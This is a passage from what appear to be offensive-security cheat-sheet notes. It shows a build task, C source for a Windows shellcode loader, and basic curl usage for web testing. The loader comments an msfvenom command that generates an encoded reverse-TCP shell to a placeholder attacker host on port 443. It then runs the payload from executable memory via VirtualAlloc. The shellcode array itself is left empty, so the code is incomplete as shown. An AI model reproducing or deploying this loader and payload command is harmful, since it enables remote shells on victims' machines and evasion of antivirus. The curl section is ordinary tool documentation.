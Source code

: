             "version": "2.0.0",
            "tasks": [
              {
                "label": "build hello world",
                "type": "shell",
                "command": "g++",
                "args": ["-g", "-o", "test_local", "test_local.cpp"],
                "group": {
                  "kind": "build",
                  "isDefault": true
                }
              }
            ]
          }
         ```
- Souce Code
```c=
#include "Windows.h"

int main()
{
    unsigned char meow[] = 
        // msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -i 3 LHOST={IP} LPORT=443 -f c

      void *exec = VirtualAlloc(0, sizeof meow, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
      memcpy(exec, meow, sizeof meow);
      ((void(*)())exec)();

    return 0;
}
```

-----

## Exploit

### Web

#### **curl**

This tool use to connect website and send request.

- Usage
```
curl {options} {URL}
```
- Options
    - `-X` Choose HTTP Medhod
    - `-i` Show Response Header
    - `-H` Add header in package
    - `-b` Add cookie in package
    - `-d` Add HTTP POST data
- Example Command
```
curl -X POST -H 'User-Agent: meow' -b 'sd8657s43dft5' "http://192.168.0.1"
```
- Form type
    - `Content-Type: application/x-www-form-urlencoded`
- Install
```
sudo apt install curl
```
